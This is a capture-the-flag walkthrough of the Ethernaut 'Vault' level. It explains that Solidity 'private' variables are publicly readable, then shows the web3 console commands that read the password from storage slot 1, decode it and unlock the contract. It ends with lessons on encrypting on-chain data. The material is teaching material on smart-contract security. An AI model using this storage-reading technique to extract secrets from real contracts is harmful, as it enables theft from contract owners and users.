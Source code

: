 # Vault

![https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg)

# Objectives

Unlock the vault to pass the level!

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

# Analysis

This contract requires us to unlock the vault that is protected by `bytes32 private password` variable and is set in the constructor during contract deployment. The only way to unlock the vault is to know the password. Any blockchain developer would know that `private` variable only affects the scope of the variable in the contract and has nothing to do with making the contents of that variable private or hidden, that means the password stored in the `bytes32 private` variable can be accessible by outsiders.

For this we need to understand how Solidity stores state variables in the EVM, a quick search led me to this awesome [article](https://solidity-by-example.org/hacks/accessing-private-data/).  Please go through the article before continuing with the AntiSec section.

# AntiSec

Now that we know how can we access any state variables stored using Solidity, let’s first check if the `bool public locked` variable which is stored in `slot 0` returns `true` or not. To do that, simply in the developer console I’ll type this command - 

```jsx
await web3.eth.getStorageAt(contract.address, 0, console.log)
```

And it should return True or 1- 

```jsx
"0x0000000000000000000000000000000000000000000000000000000000000001"
```

The next variable in the contract is `password` which is in `slot 1` , this should return us the `HEX` response of the password we need - 

```jsx
await web3.eth.getStorageAt(contract.address, 1, console.log)
>> "0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
```

Great, we now have the password, we can just use it to unlock the vault, however curious mind wants to know what this hex value says, to know that we can just convert this to ASCII using web3 utils - 

```jsx
await web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
>> "A very strong secret password :)"
```

Indeed a very strong secret password. Now let’s unlock the vault by calling the `unlock` function and pass the vary strong secret password’s `HEX` value as the parameter.

```jsx
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

Once the transaction goes through successfully, we will again check the `locked` value which is stored in the slot 0 and this time it should return all `0` instead of 1 - 

```jsx
await web3.eth.getStorageAt(contract.address, 0, console.log)
>> "0x0000000000000000000000000000000000000000000000000000000000000000"
```

Now we submit the instance, and congratulations, we have unlocked the vault.

```jsx
(っ◕‿◕)っ Well done, You have completed this level!!!
```

# Key Takeaways

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
